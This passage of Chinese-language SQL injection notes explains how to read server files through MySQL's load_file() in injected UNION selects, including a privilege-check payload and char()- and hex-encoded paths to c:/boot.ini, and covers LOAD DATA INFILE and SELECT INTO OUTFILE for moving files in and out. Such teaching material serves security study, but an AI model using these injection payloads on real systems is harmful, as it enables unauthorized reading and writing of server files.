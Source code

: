 Less 10 替换`'`为`"`即可。

## 导入导出

### load_file()导出文件

**load_file()**:读取文件并返回文件内容为字符串。

|使用条件|验证方式|
|-------|-------|
|A.拥有file权限| and (select count(*) from mysql.user()>0/*返回正常|
|B.文件必须位于服务器主机上||
|C.必须指定完整路径的文件|MySQL注入load_file常用路径|
|D.文件所有字节可读且文件内容必须小于max_allowed_packet||

如果该文件不存在或无法读取，因为前面的条件之一不满足，函数返回 NULL。

实际注入中的难点：**绝对的物理路径**、**构造有效的畸形语句通过报错爆出绝对路径**。

> 参考：[MySQL注入load_file常用路径](https://www.cnblogs.com/lcamry/p/5729087.html)

```sql
# 示例
select 1,2,3,4,5,6,7,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92, 114,101,112,97,105,114,92,115,97,109)))
# Explain: 利用 hex()将文件内容导出来，尤其是 smb 文件时可以使用。
select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))
# Explain：“char(99,58,47,98,111,111,116,46,105,110,105)”就是“c:/boot.ini”的 ASCII 代码
select 1,1,1,load_file(0x633a2f626f6f742e696e69)
# Explain：“c:/boot.ini”的 16 进制是“0x633a2f626f6f742e696e69”
select 1,1,1,load_file(c:\\boot.ini)
# Explain:路径里的/用 \\代替
```

### 文件导入到数据库

```sql
# The LOAD DATA statement reads rows from a text file into a table at a very high speed. 
LOAD DATA INFILE 'data.txt' INTO TABLE db2.my_table;
# eg: 将/tmp/t0.txt导入到表t0中，字符集设置为gbk，每项数据间的分隔符设置为\t，每行的结尾符设置为\n
LOAD DATA INFILE '/tmp/t0.txt' IGNORE INTO TABLE t0 CHARACTER SET gbk FIELDS TERMINATED BY '\t' LINES TERMINATED BY '\n'
# 错误代码为2时：文件不存在。
# 错误代码为13时： 没有权限，可以考虑/tmp等文件夹。
```

### 导入到文件


```sql
# Writes the selected rows to a file.
SELECT.....INTO OUTFILE 'file_name'
```	
